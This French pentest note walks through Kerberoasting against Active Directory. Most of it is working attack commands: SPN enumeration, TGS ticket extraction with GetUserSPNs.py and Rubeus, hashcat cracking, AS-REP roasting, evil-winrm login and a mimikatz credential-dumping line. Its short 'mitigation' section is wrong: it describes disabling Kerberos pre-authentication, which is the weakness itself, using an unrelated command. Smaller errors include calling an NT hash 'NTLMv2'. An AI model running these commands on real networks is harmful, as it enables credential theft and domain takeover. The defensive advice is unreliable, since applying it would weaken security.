

Le **Kerberoasting** est une technique d'attaque visant les services **Active Directory** utilisant **Kerberos** pour l'authentification. Elle permet d'extraire des tickets de service (**TGS**) chiffrés avec la clé NTLM du compte de service associé, afin de les cracker hors ligne.

> [!warning] Prérequis
> Nécessite un compte utilisateur valide dans le domaine pour requêter les **SPN**.

> [!danger] Attention
> Le **Kerberoasting** génère des logs d'événements (**Event ID 4769**) exploitables par un SOC.

> [!danger] Danger
> Le cracking hors ligne peut être long selon la complexité du mot de passe du compte de service.

> [!tip] Astuce
> Privilégiez le ciblage des comptes de service avec des privilèges élevés (ex: SQL Server, Exchange).

## Analyse des risques (bruit réseau/logs)
Le **Kerberoasting** est une attaque active qui génère un volume important de trafic réseau et de logs sur le **Domain Controller**. 
- **Event ID 4769** : Chaque demande de ticket **TGS** génère cet événement. Une augmentation soudaine de ces logs pour un seul utilisateur est un indicateur fort de compromission.
- **Encryption Type** : Les requêtes utilisant des types de chiffrement faibles (RC4_HMAC) sont particulièrement surveillées par les solutions **EDR/SIEM**.
- **Bruit** : L'énumération massive de **SPN** peut déclencher des alertes de type "Service Principal Name Request Anomaly".

## Techniques de filtrage des SPN (ex: comptes avec privilèges élevés)
Il est préférable de cibler les comptes ayant des privilèges élevés pour maximiser l'impact de l'attaque.

### Filtrage via PowerShell
```powershell
# Lister les comptes avec SPN et privilèges élevés (ex: Admin du domaine)
Get-ADUser -Filter 'ServicePrincipalName -ne "$null"' -Properties ServicePrincipalName, MemberOf | Where-Object {$_.MemberOf -like "*Domain Admins*"}
```

### Filtrage via GetUserSPNs.py
```bash
# Cibler uniquement les comptes de service spécifiques
GetUserSPNs.py -dc-ip <IP_DC> <DOMAINE>/<USER> -request -spn "MSSQLSvc/sql-prod.domaine.local:1433"
```

## Gestion des tickets Kerberos en mémoire (klist/purge)
Avant de lancer une attaque ou après avoir obtenu un ticket, il est crucial de gérer le cache Kerberos pour éviter les conflits ou nettoyer ses traces.

```powershell
# Lister les tickets en mémoire
klist

# Purger tous les tickets (nécessite des privilèges élevés)
klist purge

# Purger un ticket spécifique (via Rubeus)
Rubeus.exe purge
```

## Contournement des protections (AS-REP Roasting vs Kerberoasting)
Si le **Kerberoasting** est bloqué (ex: comptes protégés, absence de SPN), l'**AS-REP Roasting** est une alternative viable.

| Caractéristique | Kerberoasting | AS-REP Roasting |
| :--- | :--- | :--- |
| **Cible** | Comptes avec SPN | Comptes sans pré-authentification Kerberos |
| **Prérequis** | Compte valide | Aucun (si le compte est vulnérable) |
| **Risque** | Élevé (TGS) | Élevé (AS-REP) |

**AS-REP Roasting** :
```bash
# Utilisation de GetNPUsers.py pour extraire les hashes
GetNPUsers.py <DOMAINE>/ -usersfile users.txt -format hashcat -dc-ip <IP_DC>
```
*Note : Voir les notes liées sur l'**AS-REP Roasting** pour plus de détails.*

## Énumération des SPN

### Linux (**GetUserSPNs.py**)
Liste les comptes de service ayant un **Service Principal Name (SPN)** :

```bash
GetUserSPNs.py -dc-ip <IP_DC> <DOMAINE>/<USER>:<MOT_DE_PASSE>
```

Avec **NTLMv2** hash :

```bash
GetUserSPNs.py -dc-ip <IP_DC> <DOMAINE>/<USER> -hashes LMHASH:NTHASH
```

### Windows (**PowerView**)
Lister les comptes avec **SPN** :

```powershell
Get-NetUser -SPN | Select-Object samaccountname,serviceprincipalname
```

## Récupération des TGS

### Linux (**GetUserSPNs.py**)
Demande tous les tickets **TGS** :

```bash
GetUserSPNs.py -dc-ip <IP_DC> <DOMAINE>/<USER>:<MOT_DE_PASSE> -request
```

Enregistrement dans un fichier pour traitement ultérieur :

```bash
GetUserSPNs.py -dc-ip <IP_DC> <DOMAINE>/<USER>:<MOT_DE_PASSE> -request -outputfile tickets.txt
```

### Windows (**Rubeus.exe**)
Demander les tickets et formater pour **hashcat** :

```powershell
Rubeus.exe kerberoast /format:hashcat /outfile:tickets.txt
```

## Cracking de tickets

Utilisation de **hashcat** avec le mode **-m 13100** :

```bash
hashcat -m 13100 tickets.txt /usr/share/wordlists/rockyou.txt --force
```

## Test d'authentification

### Linux (**netexec**)
Test du mot de passe cracké sur SMB :

```bash
netexec smb <IP_DC> -u <USER> -p <PASSWORD>
```

Connexion interactive via **evil-winrm** :

```bash
evil-winrm -i <IP_DC> -u <USER> -p <PASSWORD>
```

### Windows
Vérification des accès :

```powershell
net group "Domain Admins" /domain
whoami /priv
net use \\<IP_DC>\C$ /user:<DOMAINE>\<USER> <PASSWORD>
```

## Exploitation post-crack

Une fois les identifiants obtenus, des techniques comme le **Credential Dumping** peuvent être utilisées pour élever ses privilèges :

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Défense et Mitigation

*   **Désactivation de la pré-authentification Kerberos** :
    ```powershell
    Set-ADUser -Identity <USER> -KerberosEncryptionType None
    ```
*   **Implémentation de LAPS** : Empêche la réutilisation de mots de passe locaux.
*   **Surveillance** : Analyse des logs **Event ID 4769** pour détecter des requêtes **TGS** anormales.

Cette attaque est étroitement liée aux concepts de **AS-REP Roasting**, **Golden Ticket Attack**, **Silver Ticket Attack**, **Active Directory Enumeration** et **Credential Dumping**.